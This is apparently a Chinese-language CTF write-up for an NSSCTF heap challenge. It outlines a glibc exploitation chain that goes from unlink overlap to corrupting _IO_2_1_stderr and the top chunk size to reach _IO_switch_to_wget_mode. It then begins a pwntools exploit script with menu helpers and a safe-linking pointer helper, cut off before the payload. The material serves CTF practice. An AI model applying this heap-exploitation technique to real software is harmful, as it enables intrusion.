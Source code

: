 ## 例题：

题目地址：[[NSSRound#4 SWPU\]做道堆题休息一下吧 | NSSCTF](https://www.nssctf.cn/problem/2482)

### 思路：

1. unlink 合并后造成overlapping，申请chunk到IO_2_1_stderr修改IO_2_1_stderr进行占迁移，覆盖top chunk的size触发IO链：

   ```sh
   _int_malloc --> sysmalloc --> __malloc_assert --> _IO_fflush --> _IO_wfile_seekoff --> _IO_switch_to_wget_mode
   ```

### EXP

1. 完整EXP：

   ```py
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   choose = 2
   if choose == 1 :    # 远程
       success("远程")
       p = remote("node4.anna.nssctf.cn",28389)
       libc = ELF('/home/kali/Desktop/haha/libc.so.6')
       # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')
       # elf = ELF("./pwn")
   else :              # 本地
       success("本地")
       p = process("./pwn")
       libc = ELF('/home/kali/Desktop/haha/libc.so.6')
       # libc = ELF('/home/kali/Desktop/source_code/glibc-2.38_lib/lib/libc.so.6')
       # ld = ELF("ld.so") 
       # elf = ELF("./pwn")
   
   def add():
       p.sendlineafter(b':',b'1')
       # p.sendlineafter(b':',str(index).encode())
       # p.sendlineafter(b':',str(size).encode())
       
   
   def edit(index, size,content):
       p.sendlineafter(b':',b'2')
       p.sendlineafter(b':',str(index).encode())
       p.sendlineafter(b':',str(size).encode())
       p.sendafter(b':',content)
   
   def show(index):
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b':',str(index).encode())
   
   def free(index):
       p.sendlineafter(b':',b'4')
       p.sendlineafter(b':',str(index).encode())
   
   def fd_glibc32(tcache_base,target_addr):
       success("fake_addr==>"+hex(target_addr))
       payload = p64(tcache_base^(target_addr))
       return payload
   
   ```